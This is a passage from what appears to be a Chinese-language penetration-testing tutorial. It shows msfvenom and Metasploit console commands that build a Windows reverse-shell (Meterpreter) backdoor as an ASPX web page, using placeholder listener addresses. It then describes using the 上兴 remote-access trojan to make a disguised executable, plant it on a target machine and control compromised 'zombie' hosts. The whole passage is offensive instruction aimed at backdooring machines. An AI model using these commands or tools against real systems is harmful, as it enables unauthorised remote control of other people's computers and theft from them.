 方法1：msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxxxx LPORT=xxxx -f aspx > shell.aspx

方法2：

（1）使用msf以下命令调用模块

​	use windows/shell_reverse_tcp

​	set lhost x.x.x.x

​	set lport xxxx

（2）然后使用generate -f aspx

#### 2.7 上兴远控后门

上兴远控是可视化界面，对于制作后门去控制靶机，更加方便

生成伪装的exe文件，上传到目标机器合适的位置，即可用客户端监听和连接肉鸡